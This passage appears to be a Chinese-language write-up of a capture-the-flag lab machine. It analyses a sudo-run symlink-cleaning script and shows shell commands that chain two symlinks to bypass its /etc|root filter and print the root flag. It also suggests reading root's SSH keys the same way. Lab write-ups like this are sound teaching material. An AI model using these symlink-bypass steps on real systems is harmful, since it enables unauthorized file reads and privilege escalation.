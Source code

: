 ```
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
  /usr/bin/echo "! First argument must be a png file !"
  exit 2
fi

if /usr/bin/sudo /usr/bin/test -L $LINK;then
  LINK_NAME=$(/usr/bin/basename $LINK)
  LINK_TARGET=$(/usr/bin/readlink $LINK)
  if /usr/bin/echo "$LINK_TARGET" | /usr/bin/grep -Eq '(etc|root)';then
    /usr/bin/echo "! Trying to read critical files, removing link [ $LINK ] !"
    /usr/bin/unlink $LINK
  else
    /usr/bin/echo "Link found [ $LINK ] , moving it to quarantine"
    /usr/bin/mv $LINK $QUAR_DIR/
    if $CHECK_CONTENT;then
      /usr/bin/echo "Content:"
      /usr/bin/cat $QUAR_DIR/$LINK_NAME 2>/dev/null
    fi
  fi
fi
```
脚本设计用于检查一个文件（作为参数传递）是否是一个指向 PNG 文件的符号链接。如果是，它会检查符号链接的目标，并决定是删除它还是将其隔离。具体来说，如果符号链接指向敏感文件或目录（如 /etc 或 /root ），则会删除链接。否则，它将在指定的目录（/var/quarantined）中隔离链接。如果将 `CHECK_CONTENT` 变量设置为 true ，它还可能打印隔离文件的內容。

首先我们的思路就是读取root的flag，我们可以把这个`.txt`链接到`.png`上，但是直接链接会报错，我们在中间再转折一下

```
bob@linkvortex:~$ export CHECK_CONTENT=true
bob@linkvortex:~$ touch link1.png
bob@linkvortex:~$ `ln -sf /root/root.txt link1.png`
bob@linkvortex:~$ touch link2.png
bob@linkvortex:~$ `ln -sf /home/bob/link1.png link2.png`
bob@linkvortex:~$ ls
link1.png  link2.png  user.txt
bob@linkvortex:~$ sudo bash /opt/ghost/clean_symlink.sh link2.png
Link found [ link2.png ] , moving it to quarantine
Content:
a2340eed30a7a15b1fb810a7945d2338
```

实际上这个就是个任意文件读取，我们当然可以去读取ssh的密钥去做到提权的效果
